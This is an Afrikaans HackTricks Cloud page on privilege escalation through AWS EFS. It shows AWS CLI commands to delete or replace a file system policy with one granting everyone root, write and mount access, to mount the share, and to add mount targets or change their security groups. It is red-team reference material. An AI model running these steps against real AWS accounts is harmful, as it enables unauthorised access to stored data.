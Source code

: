 # AWS - EFS Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EFS

Meer **inligting oor EFS** in:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Onthou dat om 'n EFS te monteer, jy in 'n subnetwerk moet wees waar die EFS blootgestel is en toegang daartoe moet hê (veiligheidsgroepe). As dit gebeur, sal jy dit standaard altyd kan monteer, maar as dit deur IAM-beleide beskerm word, moet jy die ekstra toestemmings hê wat hier genoem word om toegang te verkry.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Met enige van daardie toestemmings kan 'n aanvaller die **lêerstelselsbeleid** **verander** om **jou toegang** daartoe te gee, of net om dit te **verwyder** sodat die **standaardtoegang** toegestaan word.

Om die beleid te verwyder:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Om dit te verander:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Met hierdie toestemming sal 'n aanvaller in staat wees om die **EFS te monteer**. As die skryftoestemming nie standaard aan almal wat die EFS kan monteer gegee word nie, sal hy slegs **lees toegang** hê.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Die ekstra regte `elasticfilesystem:ClientRootAccess` en `elasticfilesystem:ClientWrite` kan gebruik word om **te skryf** binne die lêerstelsel nadat dit gemonteer is en om **toegang** tot daardie lêerstelsel **as root** te verkry.

**Potensiële Impak:** Indirekte privesc deur sensitiewe inligting in die lêerstelsel te lokaliseer.

### `elasticfilesystem:CreateMountTarget`

As jy 'n aanvaller is wat binne 'n **subnet** is waar **geen monteerdoel** van die EFS bestaan nie. Hy kan eenvoudig **een in sy subnet skep** met hierdie voorreg:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Potensiële Impak:** Indirekte privesc deur sensitiewe inligting in die lêerstelsel te lokaliseer.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

In 'n scenario waar 'n aanvaller ontdek dat die EFS 'n mount target in sy subnetwerk het, maar **geen sekuriteitsgroep die verkeer toelaat nie**, kan hy eenvoudig **dit verander deur die geselekteerde sekuriteitsgroepe aan te pas**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Potensiële Impak:** Indirekte privesc deur sensitiewe inligting in die lêerstelsel te lokaliseer.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
